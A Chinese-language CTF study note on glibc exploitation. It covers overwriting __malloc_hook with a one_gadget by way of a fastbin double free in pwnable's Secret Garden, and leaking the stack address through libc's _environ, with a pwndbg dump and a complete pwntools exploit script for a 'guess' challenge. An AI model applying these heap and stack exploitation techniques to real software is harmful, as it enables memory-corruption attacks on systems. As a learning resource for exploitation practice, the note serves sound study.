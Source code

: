 # About Hook & _environ

## Hook

\_\_malloc\_hook等是libc中的全局变量，在调用malloc、free、realloc等函数时，会首先判断对应的hook是否为空，如果不为空则跳转到hook。

当开启**RELRO:    Full RELRO**保护时，got表不可写，不能通过劫持got表改变函数调用，此时将hook改为one\_gadget通常能取得不错的效果

**For example :** 

Pwnable 的 Secret Garden中，开启了全保护。

可以利用unsortedbin泄露出libc基址之后，通过double free实现uaf，将fd指针修改到\_\_malloc\_hook附近，从而在下次进行分配时可以修改附近的值。

```
pwndbg> telescope 0x3c4b10+0x7f0575c43000-0x20
00:0000│   0x7f0576007af0 (_IO_wide_data_0+304) —▸ 0x7f0576006260 (_IO_wfile_jumps) ◂— 0x0
01:0008│   0x7f0576007af8 ◂— 0x0
02:0010│   0x7f0576007b00 (__memalign_hook) —▸ 0x7f0575cc8e20 (memalign_hook_ini) ◂— push   r12
03:0018│   0x7f0576007b08 (__realloc_hook) —▸ 0x7f0575cc8a00 (realloc_hook_ini) ◂— push   r15
04:0020│   0x7f0576007b10 (__malloc_hook) ◂— 0x0
```

从fastbin中进行分配时，不会检查堆块的对齐，且使用unsigned int进行比较，所以前4字节不重要，只要存在形如0x\*\*\*\*\*\*\*\*000000xx结构的数据即可进行分配，其中0x**xx**在fastbin大小中即可。显然可以利用*_IO_wide_data_0+304*的X7f与下一Qword的0作为size，绕过检查(需要开malloc(0x60))，将malloc\_hook改为可用的one\_gadget即可。

*Additional：* 通过malloc调用时通常不能满足寄存器要求，可以通过连续两次free相同的chunk，触发malloc_printerr，可以满足寄存器要求。

## \_environ

\_environ 是libc中存储栈地址的全局变量，leak出libc基址之后可以通过打印*libc.sym['_environ']*地址的变量得到当前程序运行的栈地址，从而进行后续操作。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
context.binary = "./guess"
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]


io = process("./guess",env = {"PRE_LOAD": "./libc.so.6"})
# io = remote("106.75.90.160", 9999)
# gdb.attach(io,'b * 0x400b17')
raw_input('->debug ')
elf = ELF("./guess")
libc = ELF("./libc.so.6")

io.sendline('a' * 0x128 + p64(elf.got['__libc_start_main']))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['__libc_start_main']
info("libc: {:#x}".format(libc.address))


#  gdb.attach(io, "b *0x400B23\nc")
#  pause()
io.sendline('a' * 0x128 + p64(libc.sym['_environ']))
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0'))
info("stack: {:#x}".format(stack))

io.sendline('a' * 0x128 + p64(stack - 0x168))

io.interactive()
```



## 